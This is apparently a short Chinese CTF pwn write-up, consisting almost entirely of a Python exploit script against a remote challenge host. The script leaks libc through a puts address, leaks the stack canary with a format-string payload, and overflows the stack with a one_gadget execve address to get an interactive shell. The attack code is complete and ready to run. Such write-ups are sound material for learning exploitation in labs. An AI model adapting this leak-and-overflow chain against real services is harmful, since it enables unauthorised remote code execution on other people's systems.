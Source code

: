 看上去没那么唬人,虽然开了很多保护,但是能泄露libc,pie保护基本没用,cannary也能泄露

exp如下:

```python
from Pwnmodules import *  # 对pwntools写的封装
  
# 设置上下文环境，包括日志等级、目标架构和操作系统  
context(log_level='debug', arch='amd64', os='linux')  
  
# 远程目标设置，这里假设目标IP为27.25.151.80，端口为41109  
# target=Target("/root/Pwn/test/test")  # 本地测试时使用的目标  
target=Target("27.25.151.80", 41109)  
  
# 加载本地ELF文件和libc库文件，用于符号解析和地址计算  
elf=ELF("/root/Pwn/test/./test")  
libc=ELF("/root/Pwn/test/libc-2.31.so")  
  
# 发送输入直到遇到" => "提示，然后读取并解析puts函数的地址  
target.ru(" => ")  
puts_addr=int(target.rl()[:-1], 16)  
print(hex(puts_addr))  
  
# 计算libc基地址，通过puts函数地址减去libc中puts符号的地址  
libc_base=puts_addr-libc.sym["puts"]  
  
# 查找并利用libc中的gadgets（如pop rdi指令）  
pop_rdi=0x1343+libc_base  # 一个pop rdi; ret指令的地址，用于设置第一个参数  
ret_addr=libc_base+0x000000000000101a  # 一个ret指令的地址，用于跳转到pop rdi  
system_addr=libc.sym["system"]+libc_base  # system函数的地址  
str_bin_sh_addr=libc_base+next(libc.search('/bin/sh\x00'))  # "/bin/sh"字符串的地址  
  
# 打印关键地址信息  
print(f"system: {hex(system_addr)}")  
print(f"puts: {hex(libc.sym['puts'])}")  
  
# 发送格式化字符串攻击载荷，读取栈上的cannary值（用于绕过栈保护）  
target.sl(b'%15$p')  
target.ru("Are you sure this is ")  
cannary=int(target.rl()[:-2], 16)  
print(hex(cannary))  
print("*"*5)  
print(hex(libc.sym["system"]))  
  
# 构造最终的攻击载荷  
# padding用于填充到目标地址，cannary用于绕过栈保护，ret_addr用于跳转到pop rdi，pop_rdi用于设置"/bin/sh"地址，system_addr用于执行system("/bin/sh")  
# 注意：这里的execve部分被注释掉了，可能是因为题目环境不允许直接使用execve，或者作者选择了另一种方法  
padding=0x28  # 填充字节数，根据目标程序的栈布局确定  
  
# payload=b'a'*padding+p64(cannary)+p64(ret_addr)+p64(pop_rdi)+p64(str_bin_sh_addr)+p64(system_addr)  # 使用system("/bin/sh")的payload  
execve=[0xe3b2e,0xe3b31,0xe3b34]  # 假设找到的execve gadget地址（直接执行/bin/sh的libc gadget）  
payload=b'a'*padding+p64(cannary)+p64(1)+p64(libc_base+execve[1])  # 使用execve gadget的payload  
  
# 发送攻击载荷，并等待获取shell  
target.sl(payload)  
target.rl()  # 可选：读取输出，确认攻击是否成功  
target.inter()  # 进入交互式shell
```
